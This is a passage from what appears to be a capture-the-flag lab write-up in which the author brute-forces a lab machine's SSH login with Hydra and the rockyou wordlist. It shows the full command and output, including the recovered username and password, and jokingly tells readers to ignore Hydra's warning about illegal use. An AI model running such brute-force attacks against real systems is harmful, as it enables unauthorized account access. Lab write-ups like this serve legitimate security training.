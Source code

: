 ![Users](/assets/pictures/basicpentest/users.png)
_Users_
<br>

## Password Attack

Now that I have the usernames in the target's machine, and remember port 22 was open. I thought of brute forcing the SSH service using 
<code style="color: green;">Hydra</code>. 
<br>

Warning: Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
<br>

Lol! ignore that scary warning
<br> 
Okay!! time to work!!
<br>

Hydra needs some patience... lol! I almost lost mine ...
```console
$ sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.61.114 
[sudo] password for nesh: 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-20 21:25:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.61.114:22/
[STATUS] 104.00 tries/min, 104 tries in 00:01h, 14344299 to do in 2298:46h, 16 active
[STATUS] 100.00 tries/min, 300 tries in 00:03h, 14344103 to do in 2390:42h, 16 active
[STATUS] 97.14 tries/min, 680 tries in 00:07h, 14343723 to do in 2460:56h, 16 active
[22][ssh] host: 10.10.61.114   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found

```